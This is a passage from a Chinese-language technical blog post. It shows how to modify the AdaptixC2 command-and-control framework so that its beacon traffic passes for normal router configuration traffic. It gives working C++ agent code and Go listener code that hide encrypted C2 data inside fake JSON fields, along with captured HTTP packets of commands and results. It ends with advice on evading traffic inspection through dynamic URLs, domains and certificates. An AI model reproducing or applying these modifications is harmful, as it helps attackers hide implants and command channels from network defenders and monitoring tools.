{"wireless":{"wlan_host_2g":{"enable":"1","ssid":"CS24","ssidbrd":"1","encryption":"1","key":"88888888","channel":"0","mode":"9","bandwidth":"2","power":"0","isolate":"0","turboon":"0","auth":"0","cipher":"1","twt":"0","ofdma":"0","max_sta_num":"0"},"wlan_host_5g":{"enable":"1","ssid":"CS5","ssidbrd":"1","encryption":"1","key":"88888888","channel":"0","mode":"10","bandwidth":"0","power":"0","isolate":"0","turboon":"0","auth":"0","cipher":"1","twt":"0","ofdma":"0","max_sta_num":"0"}},"guest_network":{"guest_2g":{"ssid":"CMCC%2DGUEST%2D6kak","encrypt":"0","key":"","enable":"0","accright":"0","upload":"0","download":"0","time_limit":"0","limit_type":"timeout","duration":"0","ssidbrd":"1","auth":"0","cipher":"1","max_sta_num":"0"},"guest_5g":{"ssid":"CMCC%2DGUEST%2D6kak%2D5G","encrypt":"0","key":"","enable":"0","accright":"0","upload":"0","download":"0","time_limit":"0","limit_type":"timeout","duration":"0","ssidbrd":"1","auth":"0","cipher":"1","max_sta_num":"0"}},"custom_wireless":{"wifi_switch":{"enable":"on","enable_2g":"on","enable_5g":"on","enable_5g1":"on","enable_5g4":"on"}},"error_code":0}
```

第三个包 命令结果

```
POST /stok=CjADI3WO2g2SYoKWG7H2YA5EIhY/ds HTTP/1.1
Accept: */*
Cookie: i68CXJG0nGGQ3PR5yj2nOU74/mFTOpBAyXWaJMNN6JpQEqHA/rAu1ZWQxO4uhD1EDK8zBPdu+VTUtJJHA4S+L89lLMFg2edTRP5aZGnR9eVrUD3Zge97PNle8SaQqgLTRcTWg6Ser9/mTt2gqSXZzglV19BbOQx4Lw==
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Host: 192.168.176.130
Content-Length: 57
Connection: Keep-Alive
Cache-Control: no-cache

.*'sh.....N.Q.>_..3.nu~..;X/~..e......J......z...5.uh>kVn
HTTP/1.1 200 OK
Date: Thu, 11 Sep 2025 13:40:38 GMT
Content-Length: 1110
Content-Type: text/plain; charset=utf-8

{"wireless":{"wlan_host_2g":{"enable":"1","ssid":"CS24","ssidbrd":"1","encryption":"1","key":"88888888","channel":"0","mode":"9","bandwidth":"2","power":"0","isolate":"0","turboon":"0","auth":"0","cipher":"1","twt":"0","ofdma":"0","max_sta_num":"0"},"wlan_host_5g":{"enable":"1","ssid":"CS5","ssidbrd":"1","encryption":"1","key":"88888888","channel":"0","mode":"10","bandwidth":"0","power":"0","isolate":"0","turboon":"0","auth":"0","cipher":"1","twt":"0","ofdma":"0","max_sta_num":"0"}},"guest_network":{"guest_2g":{"ssid":"CMCC%2DGUEST%2D6kak","encrypt":"0","key":"","enable":"0","accright":"0","upload":"0","download":"0","time_limit":"0","limit_type":"timeout","duration":"0","ssidbrd":"1","auth":"0","cipher":"1","max_sta_num":"0"},"guest_5g":{"ssid":"CMCC%2DGUEST%2D6kak%2D5G","encrypt":"0","key":"","enable":"0","accright":"0","upload":"0","download":"0","time_limit":"0","limit_type":"timeout","duration":"0","ssidbrd":"1","auth":"0","cipher":"1","max_sta_num":"0"}},"custom_wireless":{"wifi_switch":{"enable":"on","enable_2g":"on","enable_5g":"on","enable_5g1":"on","enable_5g4":"on"}},"error_code":0}
```

这里使用主流的大模型检测是否能识别C2流量（结果仅供参考）







到这里还不算完，不知道大家发现没有，响应体有如下构造

```
{"status": "ok", "data": "<<<PAYLOAD_DATA>>>", "metrics": "sync"}
```

而请求体是裸奔的，加密后的数据直接附在请求体上，现在对源码进行魔改让请求体也支持json格式请求

```
.*'qh.......P.=...V.#B+.a9.r'.._.g..........Qm.......V.....
```

初步构想，给请求体套个json+base64，这里需要将服务端和客户端同步进行修改

```
{"browser_type":"Chrome","queryWord": "<<<Base64后的原Data>>>","extend1":"connect"}
```

这里直接讲如何修改，以HTTP Beacon为例子

filename：AdaptixC2-main\_v0.8\Extenders\agent\_beacon\src\_beacon\beacon\ConnectorHTTP.cpp

```
// 将请求体包装成JSON格式来避免流量审查
LPSTR base64_data = b64_encode(data, data_size);
if (base64_data) {
    DWORD base64_len = _strlen(base64_data);

    // 构建JSON格式: {"browser_type":"Chrome","queryWord":"<base64_data>","extend1":"connect"}
    CHAR json_prefix[] = "{"browser_type":"Chrome","queryWord":"";
    CHAR json_suffix[] = "","extend1":"connect"}";

    DWORD json_prefix_len = sizeof(json_prefix) - 1;  // 减去null终止符
    DWORD json_suffix_len = sizeof(json_suffix) - 1;
    DWORD json_total_size = json_prefix_len + base64_len + json_suffix_len;

    BYTE* json_data = (BYTE*)this->functions->LocalAlloc(LPTR, json_total_size);
    if (json_data) {
        // 构建完整的JSON字符串
        memcpy(json_data, json_prefix, json_prefix_len);
        memcpy(json_data + json_prefix_len, base64_data, base64_len);
        memcpy(json_data + json_prefix_len + base64_len, json_suffix, json_suffix_len);

        connected = this->functions->HttpSendRequestA(hRequest, this->headers, (DWORD)_strlen(headers), (LPVOID)json_data, json_total_size);

        // 清理分配的内存
        memset(json_data, 0, json_total_size);
        this->functions->LocalFree(json_data);
    } else {
        // JSON内存分配失败时使用原始数据
        connected = this->functions->HttpSendRequestA(hRequest, this->headers, (DWORD)_strlen(headers), (LPVOID)data, (DWORD)data_size);
    }

    // 清理base64数据
    memset(base64_data, 0, base64_len);
    this->functions->LocalFree(base64_data);
} else {
    // base64编码失败时使用原始数据
    connected = this->functions->HttpSendRequestA(hRequest, this->headers, (DWORD)_strlen(headers), (LPVOID)data, (DWORD)data_size);
}
```

filename：AdaptixC2-main\_v0.8\Extenders\listener\_beacon\_http\pl\_http.go

```
// 期望格式: {"browser_type":"Chrome","queryWord":"<base64_data>","extend1":"connect"}
bodyStr := string(bodyData)

// 检查是否是JSON格式
if len(bodyStr) > 0 && bodyStr[0] == '{' && bodyStr[len(bodyStr)-1] == '}' {
    // 查找queryWord字段
    queryWordStart := strings.Index(bodyStr, ""queryWord":"")
    if queryWordStart != -1 {
        queryWordStart += len(""queryWord":"")
        queryWordEnd := strings.Index(bodyStr[queryWordStart:], """)
        if queryWordEnd != -1 {
            base64Data := bodyStr[queryWordStart : queryWordStart+queryWordEnd]
            // 解码Base64数据
            decodedData, err := base64.StdEncoding.DecodeString(base64Data)
            if err == nil {
                bodyData = decodedData
            }
        }
    }
}
```

改完重新make一下



重新生成Agent丢虚拟机跑起看看



从服务端下发一个命令看看流量



第一个包 下发命令

```
POST /stok=CjADI3WO2g2SYoKWG7H2YA5EIhY/ds HTTP/1.1
Accept: */*
Cookie: 1lgjAHBWFaQfh5uRkua8eeMxrRMxfMJXodQAc9sWmVoKr6mjoZEC14++Xnmfgtp6hG9KDC7+07dM0Gu8H1XZxhGGBgDxfrD+idAe4SupZ4w7EeseVvwMtT+64RizPPisZTiJ8NmiRRoQTRxKLoJVJH/x6BRZdyOQ6Q==
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Host: 192.168.176.130
Content-Length: 0
Connection: Keep-Alive
Cache-Control: no-cache


HTTP/1.1 200 OK
Date: Thu, 11 Sep 2025 16:59:54 GMT
Content-Length: 1169
Content-Type: text/plain; charset=utf-8

{"wireless":{"wlan_host_2g":{"enable":"1","ssid":"CS24","ssidbrd":"1","encryption":"1","key":"88888888","channel":"0","mode":"9","bandwidth":"2","power":"0","isolate":"0","turboon":"0","auth":"0","cipher":"1","twt":"0","ofdma":"0","max_sta_num":"0"},"wlan_host_5g":{"enable":"1","ssid":"CS5","ssidbrd":"1","encryption":"1","key":"88888888","channel":"0","mode":"10","bandwidth":"0","power":"0","isolate":"0","turboon":"0","auth":"0","cipher":"1","twt":"0","ofdma":"0","max_sta_num":"0"}},"guest_network":{"guest_2g":{"ssid":"CMCC%2DGUEST%2D6kak","encrypt":"0","key":"","enable":"0","accright":"0","upload":"0","download":"0","time_limit":"0","limit_type":"timeout","duration":"0","ssidbrd":"1","auth":"0","cipher":"1","max_sta_num":"0"},"guest_5g":{"ssid":"CMCC%2DGUEST%2D6kak%2D5G","encrypt":"0","key":".f#.5..=...[.?....G......^o..#Q3j.,2.mT;...E.@....4.a..g..w","enable":"0","accright":"0","upload":"0","download":"0","time_limit":"0","limit_type":"timeout","duration":"0","ssidbrd":"1","auth":"0","cipher":"1","max_sta_num":"0"}},"custom_wireless":{"wifi_switch":{"enable":"on","enable_2g":"on","enable_5g":"on","enable_5g1":"on","enable_5g4":"on"}},"error_code":0}
```

第二个包 确认命令

```
POST /stok=CjADI3WO2g2SYoKWG7H2YA5EIhY/ds HTTP/1.1
Accept: */*
Cookie: 1lgjAHBWFaQfh5uRkua8eeMxrRMxfMJXodQAc9sWmVoKr6mjoZEC14++Xnmfgtp6hG9KDC7+07dM0Gu8H1XZxhGGBgDxfrD+idAe4SupZ4w7EeseVvwMtT+64RizPPisZTiJ8NmiRRoQTRxKLoJVJH/x6BRZdyOQ6Q==
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Host: 192.168.176.130
Content-Length: 140
Connection: Keep-Alive
Cache-Control: no-cache

{"browser_type":"Chrome","queryWord":"wWYjwxyBO6CC0c1w7Rmx0hqzfVd37eiJO0ByryEtURtcDGx0OWMKbZ2VwEQPCpC1eVs4zXvC5psxlHU=","extend1":"connect"}

HTTP/1.1 200 OK
Date: Thu, 11 Sep 2025 16:59:54 GMT
Content-Length: 1110
Content-Type: text/plain; charset=utf-8

{"wireless":{"wlan_host_2g":{"enable":"1","ssid":"CS24","ssidbrd":"1","encryption":"1","key":"88888888","channel":"0","mode":"9","bandwidth":"2","power":"0","isolate":"0","turboon":"0","auth":"0","cipher":"1","twt":"0","ofdma":"0","max_sta_num":"0"},"wlan_host_5g":{"enable":"1","ssid":"CS5","ssidbrd":"1","encryption":"1","key":"88888888","channel":"0","mode":"10","bandwidth":"0","power":"0","isolate":"0","turboon":"0","auth":"0","cipher":"1","twt":"0","ofdma":"0","max_sta_num":"0"}},"guest_network":{"guest_2g":{"ssid":"CMCC%2DGUEST%2D6kak","encrypt":"0","key":"","enable":"0","accright":"0","upload":"0","download":"0","time_limit":"0","limit_type":"timeout","duration":"0","ssidbrd":"1","auth":"0","cipher":"1","max_sta_num":"0"},"guest_5g":{"ssid":"CMCC%2DGUEST%2D6kak%2D5G","encrypt":"0","key":"","enable":"0","accright":"0","upload":"0","download":"0","time_limit":"0","limit_type":"timeout","duration":"0","ssidbrd":"1","auth":"0","cipher":"1","max_sta_num":"0"}},"custom_wireless":{"wifi_switch":{"enable":"on","enable_2g":"on","enable_5g":"on","enable_5g1":"on","enable_5g4":"on"}},"error_code":0}
```

第三个包 命令结果

```
POST /stok=CjADI3WO2g2SYoKWG7H2YA5EIhY/ds HTTP/1.1
Accept: */*
Cookie: 1lgjAHBWFaQfh5uRkua8eeMxrRMxfMJXodQAc9sWmVoKr6mjoZEC14++Xnmfgtp6hG9KDC7+07dM0Gu8H1XZxhGGBgDxfrD+idAe4SupZ4w7EeseVvwMtT+64RizPPisZTiJ8NmiRRoQTRxKLoJVJH/x6BRZdyOQ6Q==
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Host: 192.168.176.130
Content-Length: 136
Connection: Keep-Alive
Cache-Control: no-cache

{"browser_type":"Chrome","queryWord":"wWYjwRyBO6CC0Uls7Bm+ngTXGCQ62r2lQUIt8ng+UiFTFHttNWBQLLWEzFROHeXaWwaQcAyqDc1e","extend1":"connect"}

HTTP/1.1 200 OK
Date: Thu, 11 Sep 2025 16:59:58 GMT
Content-Length: 1110
Content-Type: text/plain; charset=utf-8

{"wireless":{"wlan_host_2g":{"enable":"1","ssid":"CS24","ssidbrd":"1","encryption":"1","key":"88888888","channel":"0","mode":"9","bandwidth":"2","power":"0","isolate":"0","turboon":"0","auth":"0","cipher":"1","twt":"0","ofdma":"0","max_sta_num":"0"},"wlan_host_5g":{"enable":"1","ssid":"CS5","ssidbrd":"1","encryption":"1","key":"88888888","channel":"0","mode":"10","bandwidth":"0","power":"0","isolate":"0","turboon":"0","auth":"0","cipher":"1","twt":"0","ofdma":"0","max_sta_num":"0"}},"guest_network":{"guest_2g":{"ssid":"CMCC%2DGUEST%2D6kak","encrypt":"0","key":"","enable":"0","accright":"0","upload":"0","download":"0","time_limit":"0","limit_type":"timeout","duration":"0","ssidbrd":"1","auth":"0","cipher":"1","max_sta_num":"0"},"guest_5g":{"ssid":"CMCC%2DGUEST%2D6kak%2D5G","encrypt":"0","key":"","enable":"0","accright":"0","upload":"0","download":"0","time_limit":"0","limit_type":"timeout","duration":"0","ssidbrd":"1","auth":"0","cipher":"1","max_sta_num":"0"}},"custom_wireless":{"wifi_switch":{"enable":"on","enable_2g":"on","enable_5g":"on","enable_5g1":"on","enable_5g4":"on"}},"error_code":0}
```

可以看到流量层面已经伪装成正常业务流量（路由器），由于C2是开源的，所以后面其实可拓展性很大，包括比如说请求头URL弄成动态的，响应体也变成动态的json格式，更贴合实际业务流量，最后套上域名弄上证书就可以规避很多流量审查


